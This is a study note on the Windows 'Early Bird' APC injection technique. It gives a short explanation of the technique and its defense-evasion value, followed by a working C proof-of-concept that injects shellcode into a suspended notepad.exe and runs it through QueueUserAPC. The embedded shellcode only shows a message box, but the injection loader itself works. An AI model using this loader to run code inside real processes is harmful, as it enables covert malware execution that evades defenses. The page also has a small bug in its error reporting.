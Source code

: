 ```yaml
---
description: 06/08/2023
---
```


# 🐦 APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

> "The early bird gets the worm..."

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

#### What is an APC?

First thing's first, you need to understand what APC is. APC, or Acynchronous Procedure Call, is a function that will execute asynchronously within a particular thread.

#### How does the attack work?

This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread.&#x20;

A thread will then enter an alterable state once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a suspended process
2. Allocate and write malicious code into that process
3. Queue an APC to that process
4. Resume the main thread to execute the APC

## Physical Notes

<figure><img src="../.gitbook/assets/IMG_8837.jpg" alt="" width="375"><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

    unsigned char buf[] = 
                            "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";

    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, NULL);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection" %}
